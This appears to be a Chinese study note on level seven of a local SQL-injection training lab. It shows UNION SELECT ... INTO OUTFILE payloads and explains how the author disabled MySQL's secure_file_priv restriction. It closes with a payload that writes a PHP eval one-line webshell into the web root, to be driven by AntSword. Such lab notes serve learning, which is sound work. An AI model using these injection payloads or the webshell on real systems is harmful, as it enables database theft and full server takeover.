 ## 笔记



#### **第七关**

```
?id=1'))UNION SELECT 1,2,3 into outfile "D:\\uuu.txt"--+
```

刚开始这儿一直不行，硬盘上出现不了uuu.txt，原因是自己的mysql设置问题。

在MySQL中，outfile可以用来输出一个文件。但是想要执行这样的操作，就必须要开启文件写入的权限。

我们可以执行：`show variables like '%secure%';`来查看：发现`secure_file_priv`的 value 值是 NULL，那么这代表此时文件写入的权限是关闭的，那我们需要写入输出文件的保存路径来开启它。

首先，我们来到MySQL的根目录下，会看到一个my.ini的文件。

打开my.ini文件，添加`secure_file_priv`以及他所对应的参数：（我写的是`secure_file_priv='D://'`）

注意：*路径的斜杠需要采用//需要多加一个斜杠来转义字符，其次，因为C盘的权限问题，请不要把路径写到C盘上。*【开始我没有注意这一点导致sql语句一直报错，很头疼】

之后我们重启MySQL服务：

最后重复刚才的sql语句`show variables like '%secure%';` 来查看是否修改成功：发现已经出现路径了。

那这个时候，我们就可以执行`outfile`来输出文件到 D盘的任意位置了。

```
my.ini文件是MySQL数据库服务器和客户端程序的配置文件，它可以用于设置MySQL的基本运行参数、安全性、缓存、日志记录等方面的参数。
```

> 在sql漏洞中可以使用file系列函数
>
> load_file()  ：读取指定文件
> into outfile ：将查询的数据写入文件中
> into dumpfile：将查询的数据写入文件中(只能写入一行数据)
>
> ```
> secure_file_prive=null //限制mysqld 不允许导入导出
> secure_file_priv=/path/  //限制mysqld的导入导出只能发生在默认的/path/目录下
> secure_file_priv=’’  //不对mysqld 的导入 导出做限制
> ```
>
> outfile函数可以导出多行，而dumpfile只能导出一行数据
> outfile函数在将数据写到文件里时有特殊的格式转换，而dumpfile则保持原数据格式

这时候我们可以通过`?id=-1')) union select version(),database(),user() into outfile "D:\\uuu.txt" --+`来使得所需信息输出到uuu.txt



也可以弄一些扩展的东西（通过上传一句话木马实现远程任意命令执行）

```
?id=1'))union select 1,2,'<?php @eval($_POST['a']);?>' into outfile "D:\\ProgramData\\phpstudy\\PHPTutorial\\WWW\\uuu.php"--+

蚁剑访问：http://127.0.0.1/uuu.php
```

